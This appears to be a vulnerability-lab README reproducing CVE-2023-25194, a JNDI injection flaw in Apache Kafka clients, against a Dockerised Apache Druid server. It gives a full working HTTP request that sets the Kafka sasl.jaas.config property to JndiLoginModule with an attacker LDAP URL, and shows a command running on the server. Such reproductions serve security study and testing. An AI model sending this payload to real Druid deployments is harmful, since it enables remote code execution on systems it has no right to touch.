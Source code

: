 # Apache Kafka Clients JNDI injection RCE (CVE-2023-25194)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Kafka is an open-source distributed event streaming platform that is used for real-time data streaming and processing. Kafka clients are a set of Java libraries that allow you to produce and consume messages from Apache Kafka.

In the version prior to 3.3.2, there is a JNDI injection issue in the Apache Kafka clients if an attacker is able to set the `sasl.jaas.config` property for any of the connector's Kafka clients to `com.sun.security.auth.module.JndiLoginModule`. It will allow the server to connect to the attacker's LDAP server and deserialize the LDAP response, which the attacker can use to execute java deserialization gadget chains on the Kafka connect server. Attacker can cause unrestricted deserialization of untrusted data (or) RCE vulnerability when there are gadgets in the classpath.

Because this issue exists in a Java library, we have to find a real world software that is using the kafka-clients.

This software is Apache Druid, which is depended on kafka-clients to connect to one of its datasources. This guide is demonstrates how to exploit CVE-2023-25194 in the Apache Druid server.

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## Vulnerable Environment

Execute following command to start a Apache Druid server 25.0.0 which is depended on kafka-clients 3.3.1:

```
docker compose up -d
```

After server is started, you can see the home page of Apache Druid on `http://your-ip:8888`.

## Exploit

We use the [Java Chains](https://github.com/vulhub/java-chains) tool to reproduce vulnerabilities. Refer to the [Quick Start](https://java-chains.vulhub.org/docs/guide) to start Java Chains. Finally, referring to the [JNDI Basic Exploitation Guide](https://java-chains.vulhub.org/zh/docs/module/jndi#jndibasicpayload), we set the command to be executed as `id > /tmp/success` and generate the JNDI LDAP URL Payload.

![](1.png)

Paste the evil LDAP url into following request and send it:

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1405

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://java-chains:50389/x\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![](2.png)

As you can see, `id > /tmp/success` was executed successfully:

![](3.png)

